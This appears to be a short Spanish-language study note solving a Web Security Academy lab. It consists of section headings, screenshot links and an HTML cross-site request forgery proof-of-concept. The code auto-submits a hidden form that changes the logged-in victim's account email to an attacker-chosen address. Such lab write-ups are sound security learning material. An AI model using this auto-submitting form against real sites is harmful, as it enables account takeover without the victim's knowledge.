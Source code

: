 ### Objetivo:

![[Pasted image 20240513231006.png]]

## Exploit:

![[Pasted image 20240515222734.png]]

```
<body>

<form action="https://0a5300cf04bd2dcd80bddf3800000001.web-security-academy.net/my-account/change-email" method="post">

<input type="hidden" name="email" value="pwned@gmail.com">

</form>

<script>

document.forms[0].submit()

</script>

</body>
```
